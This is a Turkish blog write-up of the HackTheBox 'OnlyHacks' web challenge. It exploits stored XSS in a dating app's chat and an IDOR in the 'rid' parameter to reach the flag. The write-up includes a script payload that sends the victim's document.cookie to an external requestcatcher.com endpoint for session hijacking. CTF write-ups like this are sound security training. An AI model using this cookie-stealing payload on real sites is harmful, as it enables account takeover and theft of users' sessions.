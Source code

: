 ```yaml
---
title: 'HackTheBox Challenges | OnlyHacks WriteUp'
author: appdone
categories: [HackTheBox Challenges]
tags: [idor, xss]
render_with_liquid: false
media_subpath: /images/hackthebox_onlyhacks/
image:
  path: logo.webp
---
```


Bu yazımda HackTheBox platformunda yer alan “OnlyHacks” isimli meydan okumayı çözeceğim. Meydan okuma sevgililer gününe özel olarak hazırlanmış kolay seviye bir web uygulamasıdır.

![](1.webp){: width="1200" height="600" }

Kayıt olduktan sonra doğrudan eşleşmelerin yapıldığı sayfaya yönlendiriliyoruz. Gösterilen herkesi beğendikten sonra “Matches” sayfasına yöneliyoruz ve bir kişi ile eşleştiğimizi görüyoruz.

![](2.webp){: width="1200" height="600" }

Mesajlaşma alanında html etiketleri ve javascript kodları çalıştırabiliyoruz. Mesajlarımızın okunduğunu bildiğimiz için cookie bilgilerini almamızı sağlayacak bir javascript kodu yazabiliriz.

```
<script>
  fetch("https://test12345.requestcatcher.com/cookie?=" + document.cookie);
</script>
```

Cookie bilgilerini yakalamak için requestcatcher.com sitesini kullanacağım.

![](3.webp){: width="1200" height="600" }

Elde ettiğimiz cookie bilgilerini kopyalayıp devtools aracılığıyla kendimizinkiyle değiştiriyoruz. Böylece sayfayı yenilediğimizde bayrağı başka bir kişiden gelen mesaj içerisinde buluyoruz.

![](4.webp){: width="1200" height="600" }

Bunun haricinde mesajları görüntülediğimiz sayfaya rid parametresi ile yönlendirildiğimizi fark etmişsinizdir. Buradaki değeri değiştirdiğimizde aynı şekilde bayrağı görebiliyoruz.

![](5.webp){: width="1200" height="600" }

Kısaca web uygulamasında hem XSS zafiyeti hem de IDOR zafiyeti barınıyor.
